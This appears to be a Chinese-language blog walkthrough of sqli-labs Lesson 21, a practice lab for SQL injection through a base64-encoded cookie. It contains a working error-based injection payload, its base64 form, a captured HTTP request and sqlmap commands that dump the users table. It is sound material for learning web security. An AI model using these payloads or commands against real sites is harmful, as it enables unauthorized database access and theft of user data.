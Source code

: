 ```yaml
---
title: sqli-labs-lession 21 base64编码单引号和括号的Cookie注入
date: 2018-10-02 19:58:34
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession 21 base64编码单引号和括号的Cookie注入

---

## 登录界面

![1](/img/sql/Lesson-21/001.png)

## 注入过程

这一课从标题就可以发现其实和Lesson-20一样。以admin账户登入后发现本地的Cookie被加密了。

![2](/img/sql/Lesson-21/002.png)

加密方式是base64,通过burpsuite可以解密。

![3](/img/sql/Lesson-21/003.png)

所以伪造的恶意Cookie需要通过base64加密。这里故意加`'`

![4](/img/sql/Lesson-21/004.png)

刷新页面,用burpsuite抓包,修改Cookie。

![5](/img/sql/Lesson-21/005.png)

`admin')#`的base64编码为`YWRtaW4nKSM=`

![6](/img/sql/Lesson-21/006.png)

确认使用`')`闭合

payload:

`admin') and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#`

对应的base64编码

`YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKG51bGwsY29uY2F0KDB4N2UsKHNlbGVjdCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZSA9ICd1c2VycycpLDB4N2UpKSM=`

![7](/img/sql/Lesson-21/007.png)

## SQLMAP

这次是在Ubuntu下用的SQLMAP

先用Burpsuite像上一课一样抓包,修改如下

```
GET /sql/Less-21/index.php HTTP/1.1
Host: 192.168.75.131
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.75.131/sql/Less-21/index.php
Cookie: uname=YWRtaW4%3D*
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



```
--dbms 指定后端数据库
--technique E 指定注入类型为报错注入
--threads 10 指定并发线程数
--level 2 指定检测等级,等级2包括Cookie
--tamper base64encode.py 指定脚本为对base64encode.py(它会对payload进行base64加密)
--flush-session 刷新session
--fresh-queries 建立新的查询
```

`python sqlmap.py -r ../post/post_21.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py --flush-session --fresh-queries`

![8](/img/sql/Lesson-21/008.png)

获得payload:

![9](/img/sql/Lesson-21/009.png)

`python sqlmap.py -r ../post/post_21.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py -D security -T users --columns --dump`

![10](/img/sql/Lesson-21/010.png)


